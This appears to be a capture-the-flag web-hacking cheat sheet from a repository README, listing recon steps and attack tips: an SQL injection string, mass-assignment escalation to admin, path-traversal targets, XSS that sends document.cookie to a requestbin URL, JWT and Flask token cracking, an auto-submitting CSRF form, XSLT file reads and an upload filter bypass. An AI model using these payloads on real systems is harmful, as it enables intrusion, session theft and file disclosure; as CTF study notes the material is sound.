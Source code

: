 [BACK](../README.md)
# Web
- If we always receive a set-cookie in the header
  - if yes: That means it might not check for the expiration date of the cookie
- Inspect HTML
- Inspect JS
- Inspect Debug tab
- Inspect CSS
- Search for /robots.txt
  - Needs to be at the root of the website
- If the server is apache, try /.htaccess
- If MacOS: try /.DS_Store
- humans.txt
- Change user agent
- Try every verb
- Check cookie
  - try to modify it
When prompted for a password:

- Try switching request to put or post


## Webpack
The map file is a file that maps the minified code to the original code
- If the map file is available, we can read the original code
- You can find it with the static js files. It will be named the same as the js file with a .map at the end
## SQL Injection

```sql
' OR 1 = 1 UNION SELECT 1
```
If error:
- Try adding a limit to the amount of Rows
- Try adding more columns

#### If () are blocked:  
```javascript
 `${console.log`test`}`
 //instead of
 console.log("test")
 ```
## API
- Check OPTIONS verb
- Try every verb
- Check openAPI/SwaggerUI endpoint
- Try passing more fields in an "update" endpoint

ex: If the user object is this: 
```json
{
    "username":"username",
    "status":"user"
}
```
and the update endpoint asks for this:
```json
{
    "username":"username"
}
```
Pass this:
```json
{
    "username":"username",
    "status":"admin"
}
```

## Path Traversal

Useful to check:
- admin.php
- login.php
- Add ~ at the end of the php files
    - Vim backup files are stored with the file name + ~
- /etc/apache2/sites-enabled/000-default or /etc/apache2/sites-available/default
## XSS

To try to intercept requests from the page:

https://requestbin.myworkato.com/

Can add link to img src, or change window.location to this and add "?flag=" + document.cookie

### Different Angular XSS payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md
    
## JWT

- https://jwt.io/
- https://github.com/lmammino/jwt-cracker
  - Needed for `crackjwt.sh`
```bash
crackjwt.sh [jwtToken]
```

For RSA signed tokens:

- Burpsuite JWT Editor extension
  - Create a RSA key
  - In the repeater on the request sent with the cookie
  - "Attack" button -> Embedded JWK


## Flask/Python web

if urllib.parse used with urlsplit:
- add `a:` in front of the scheme to break the split (scheme returned in the url)
- add a `?` after the scheme to break (url returned in query)
- same with `#` to return everthing in fragment 

### Flask session token:
- https://github.com/Paradoxis/Flask-Unsign
  - Needed for `crack_flask_token.sh` and `edit_flask_token.sh`
- https://www.kirsle.net/wizards/flask-session.cgi

```bash
crack_flask_token.sh [token]
```

```bash
edit_flask_token.sh [payload] [secret]
```

Flask can not check for the expiration date of the session token by default
We can resend an old session and it will count as valid

## CSRF

To recognize:

- Only protection is a Session cookie
- no headers with "CSRF"

Payload example:
```html
<iframe style="display:none" name="csrf-frame"></iframe>
    <form  id="csrf-form" target="csrf-frame" action="[LINK]" method="[METHOD]" enctype="[ENCODING_TYPE]">
      <input type="text" name="[FIELD_NAME]" value="[WANTED_VALUE]" />
      <input type="submit" value="Submit" />
    </form>
<script>document.getElementById("csrf-form").submit()</script>
```

https://security.love/CSRF-PoC-Genorator/

- If there is a CSRF token sent with the request:
  - Try removing it
  - Try switching one char
  - Try switching it with one from another request

## XSLT

https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20XSLT%20Processing%20Security%20and%20Server%20Side%20Request%20Forgeries%20-%20OWASP%20Switzerland%20Meeting%202015.pdf
Read file:
- document('[FILE_NAME]') (XSLT 1.0)
- unparsed_text('[FILE_NAME]') (XSLT 2.0)
- php:function('file_get_contents','[FILE_NAME]')
- php:function('opendir','[DIR]') -> php:function('readdir') * amount of files toread

## Mock Server/API:
https://beeceptor.com/

## File uplaod 
https://book.hacktricks.xyz/pentesting-web/file-upload
- Addd a %0a to the name of the file between the .png and .php
  - ex: test.png%0a.php

## Swagger endpoints:
- /swagger-ui/index.html
- /swagger
- /swagger-ui
- /docs
- /redoc
- /openapi.json

## PHP
PHP sessions are stored in /tmp by default
if we have access to the server, we can read the session files and change our session token

fonction sys_get_temp_dir() to get the system temp directory
session_save_path() to get the session save path